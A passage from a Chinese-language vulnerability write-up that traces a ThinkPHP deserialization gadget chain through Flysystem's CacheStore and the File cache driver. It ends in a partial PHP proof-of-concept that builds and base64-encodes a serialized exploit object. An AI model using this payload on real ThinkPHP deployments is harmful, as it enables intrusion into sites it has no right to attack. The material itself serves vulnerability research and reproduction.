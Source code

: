 ```
    if ($result) {
        clearstatcache();
        return true;
    }

    return false;
}
```

跟进getExpireTime

![image-20211104214142935](images/23.png)

发现没什么可用的

跟进getCacheKey

![image-20211104214216656](images/24.png)

这里其实就是为了查看进入该方法是否出现错误或者直接`return`了

所以这里`$this->options['hash_type']`不能为空

返回了一个字符拼接的值,`$this->options['path']`可控,又可以去调用上一条链子的__toString

## 漏洞复现

poc

```
<?php

namespace League\Flysystem\Cached\Storage {
    abstract class AbstractCache
    {
        protected $autosave;
        public function __construct()
        {
            $this->autosave = false;
        }
    }
}

namespace think\filesystem {

    use League\Flysystem\Cached\Storage\AbstractCache;
    use think\cache\driver\File;

    class CacheStore extends AbstractCache
    {
        protected $store;
        protected $expire;
        protected $key;
        public function __construct()
        {
            $this->store = new File();
            $this->expire = 1;
            $this->key = '1';
        }
    }
    echo base64_encode(serialize(new CacheStore()));
}

namespace think\cache {

    use think\model\Pivot;
```